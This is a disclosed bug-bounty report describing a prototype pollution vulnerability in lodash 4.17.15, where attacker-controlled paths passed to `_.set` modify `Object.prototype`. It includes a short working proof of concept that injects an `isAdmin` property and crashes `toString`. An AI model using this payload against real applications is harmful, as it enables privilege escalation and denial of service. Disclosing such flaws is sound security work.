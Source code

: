 # Prototype pollution attack (lodash)

## Report Details
- **Report ID**: 841380
- **URL**: https://hackerone.com/reports/841380
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-06T12:25:52.689Z
- **Disclosed**: 2020-08-25T09:26:13.115Z

## Reporter
- **Username**: macasun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in lodash.
It allows an attacker to inject properties on `Object.prototype`.

# Module

module name: lodash
version: 4.17.15
npm page: https://www.npmjs.com/package/lodash

## Module Description

A modern JavaScript utility library delivering modularity, performance, & extras. 

## Module Stats

28M downloads in the last week

# Vulnerability

## Vulnerability Description

`_.set` function can be used to modify `Object.prototype`. If the attacker can control the value of `path`, he can add or modify existing property on all objects.

## Steps To Reproduce:

```js
const _ = require('lodash');

_.set({}, 'constructor.prototype.isAdmin', true);
console.log({}.isAdmin); // true

_.set({}, 'constructor.prototype.toString', null);
console.log({}.toString()); // crash
```

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

## Impact

Business logic errors, Denial of service.

## Attachments
No attachments
